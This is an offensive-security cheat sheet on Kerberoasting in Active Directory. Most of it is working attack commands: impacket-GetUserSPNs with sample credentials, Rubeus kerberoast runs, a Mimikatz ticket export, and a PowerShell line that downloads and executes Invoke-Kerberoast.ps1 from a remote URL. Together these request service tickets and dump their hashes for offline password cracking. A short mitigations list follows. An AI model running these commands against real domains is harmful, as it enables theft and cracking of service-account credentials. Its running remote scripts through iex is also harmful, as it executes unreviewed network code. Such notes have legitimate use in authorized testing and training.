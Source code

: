 # Kerberoasting

the TGS encrypted using a password service account

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>the TGS encrypted using password service account</p></figcaption></figure>

{% hint style="warning" %}
The Kerberos session ticket (TGS) has a server portion that is encrypted with the password hash of the service account. This makes it possible to request a ticket and do an offline password attack
{% endhint %}

### **Linux**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-GetUsersSPNs hacktor.local/triceratops:Sh4rpH0rns -outputfile hashes.kerberoast
</strong><strong>
</strong>impacket-GetUserSPNs remo.htb/'o.rashed':'MyP@ssw0rd!' -target-domain remo.htb -dc-ip 10.0.2.10 -request -request-user "m.nathan" -outputfile crackme.txt
</code></pre>

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### **Windows**

{% code overflow="wrap" %}
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
#Using power-kerb
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")

nvoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
{% endcode %}

### Enumeration

<pre class="language-bash"><code class="lang-bash">#Find user accounts used as Service accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-NetUser -SPN 
Get-DomainUser -SPN
#using impacket tools
<strong>impacket-GetUserSPNs hacktor.local/grey:digi@123 -dc-ip 192.168.1.50 -request
</strong></code></pre>

### Rubeus

{% code overflow="wrap" %}
```powershell
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /user:svcadmin /simple
#Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
Rubeus.exe kerberoast  /outfile:hashes.txt
#OR Native Command
Add-Type -AssemblyName System.IdentityModel ;New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/msp-sqlreport.msp.local"  
```
{% endcode %}

### mimikatz

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'

```

### Kerberos Mitigations

In order to prevent or mitigate many of these Kerberos attacks a series of policies can be implemented. Some examples are the following:

* **Enable an strong password policy**: First step is to avoid having weak passwords in domain user accounts. To achieve this an strong password policy should be implemented, by ensuring that complex password option is enabled on Active Directory domain. Moreover, blacklisting some common predictable terms in passwords as company names, year or months names.
* **Avoid accounts without pre-authentication**: If it is no completely necessary, none account must have Kerberos pre-authentication enabled. In case that this cannot be avoided, take note of these special accounts and create pseudo-random passwords with high level of complexity.
* **Avoid executing services in behalf of account accounts**: Avoid services that run in domain user account context. In case of using an special user account for launch domain services, generate an strong pseudo-random password for that account.
* **Verify PAC**: Enable PAC verification in order to avoid attacks such as Silver Ticket. To enable this check set the value _ValidateKdcPacSignature_ (DWORD) in subkey _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters_ to 1.
* **Change passwords periodically**: Set policies to ensure that user passwords are periodically modified, for example, each 2 to 4 months. As special case, _krbtgt_ account password should also be changed periodically, since that key is used to create TGTs. To this purpose, the script [https://github.com/microsoft/New-KrbtgtKeys.ps1](https://github.com/microsoft/New-KrbtgtKeys.ps1) can be used. It must be taken into account that _krbtgt_ password must be modified twice to invalidate current domain tickets, for cache reasons. Another consideration is that the functional level of domain must be equal or higher than Windows Server 2008 in order to manipulate _krbtgt_ account credentials.
* **Disable Kerberos weak encryption types**: Only Kerberos encryption with AES keys should be allowed. Furthermore, Kerberos requests with a lower level of encryption as RC4 should be monitored, due is usually used by attack tools.

Resources&#x20;

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=36036" %}
